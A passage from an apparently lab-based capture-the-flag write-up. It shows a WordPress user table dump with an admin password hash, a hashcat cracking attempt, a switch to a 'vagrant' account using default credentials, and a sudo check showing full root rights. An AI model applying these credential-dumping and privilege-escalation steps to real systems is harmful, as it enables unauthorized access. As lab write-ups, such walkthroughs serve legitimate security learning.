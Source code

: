 ```
| wp_wc_comments_subscription |
| wp_wc_feedback_forms        |
| wp_wc_follow_users          |
| wp_wc_phrases               |
| wp_wc_users_rated           |
| wp_wc_users_voted           |
+-----------------------------+
19 rows in set (0.00 sec)

MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | j@m3s      | $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/ | jm3s          | admin@blogger.thm |          | 2021-01-17 12:40:06 |                     |           0 | j@m3s        |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```
Unfortunately, I was unable to crack this hash using hashcat:
```
hashcat james_hash /usr/share/wordlists/rockyou.txt -m 400
```

Going back to the `/home` directory I can see there is a user vagrant. Vagrant default credentials can be vagrant:vagrant, so lets try to `su vagrant` with vagrant for the password:

```
www-data@ubuntu-xenial:/home$ ls
james  ubuntu  vagrant
www-data@ubuntu-xenial:/home$ su vagrant
Password: 
vagrant@ubuntu-xenial:/home$ whoami
vagrant
```

Nice, that worked! 

Checking out what user vagrant can do
```
vagrant@ubuntu-xenial:/data$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

We see we can do whatever want with sudo. Lets just `sudo su root` and grab the final flag:
